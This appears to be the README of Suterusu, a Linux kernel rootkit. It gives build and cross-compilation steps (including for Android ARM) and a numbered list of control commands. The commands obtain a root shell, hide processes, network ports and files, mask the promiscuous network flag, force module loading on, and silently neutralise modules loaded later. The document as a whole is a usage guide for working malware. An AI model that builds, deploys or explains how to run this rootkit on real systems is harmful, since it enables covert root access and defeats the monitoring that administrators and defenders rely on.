 Suterusu
========

Typical compilation steps:

    $ wget http://kernel.org/linux-x.x.x.tar.gz
    $ tar xvf linux-x.x.x.tar.gz
    $ cd linux-x.x.x
    $ make menuconfig
    $ make modules_prepare
    $ cd /path/to/suterusu
    $ make linux-x86 KDIR=/path/to/kernel


To compile against the currently running kernel (kernel headers installed):

    $ make linux-x86 KDIR=/lib/modules/$(uname -r)/build


If a specific toolchain is desired for cross-compilation, provide the
CROSS_COMPILE variable during make:

    $ make android-arm CROSS_COMPILE=arm-linux-androideabi- KDIR=/path/to/kernel


To compile the command binary:

    $ gcc sock.c -o sock


Commands
========

Root shell

    $ ./sock 0

Hide PID

    $ ./sock 1 [pid]

Unhide PID

    $ ./sock 2 [pid]

Hide TCPv4 port

    $ ./sock 3 [port]

Unhide TCPv4 port

    $ ./sock 4 [port]

Hide TCPv6 port

    $ ./sock 5 [port]

Unhide TCPv6 port

    $ ./sock 6 [port]

Hide UDPv4 port

    $ ./sock 7 [port]

Unhide UDPv4 port

    $ ./sock 8 [port]

Hide UDPv6 port

    $ ./sock 9 [port]

Unhide UDPv6 port

    $ ./sock 10 [port]

Hide file/directory

    $ ./sock 11 [name]

Unhide file/directory

    $ ./sock 12 [name]

Hide network PROMISC flag

    $ ./sock 13

Unhide network PROMISC flag

    $ ./sock 14

Enable module loading (force kernel.modules_disabled=0)

    $ ./sock 15

Silently prohibit module loading (neutralize future loaded modules)

    $ ./sock 16

Silently re-permit module loading (undo command 16)

    $ ./sock 17


File/directory hiding
---------------------

At the moment, file/dir hiding only hides names on the / filesystem.  Note that names are hidden, not paths.  For instance, giving the name ".blah" to Suterusu will hide the name ".blah" in all directories on the filesystem.
